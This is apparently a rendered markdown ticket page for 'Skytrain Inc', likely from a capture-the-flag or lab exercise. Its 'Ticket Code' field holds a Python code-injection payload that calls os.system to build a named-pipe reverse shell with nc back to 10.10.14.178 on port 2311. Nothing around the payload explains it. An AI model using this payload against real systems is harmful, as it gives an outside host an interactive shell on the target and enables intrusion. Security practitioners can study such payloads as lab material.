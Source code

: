 # Skytrain Inc 
## Ticket to 
__Ticket Code:__
**102+ 10 == 112 and __import__('os').system('rm /tmp/h;mkfifo /tmp/h;cat /tmp/h|/bin/sh -i 2>&1|nc 10.10.14.178 2311 >/tmp/h') == False 
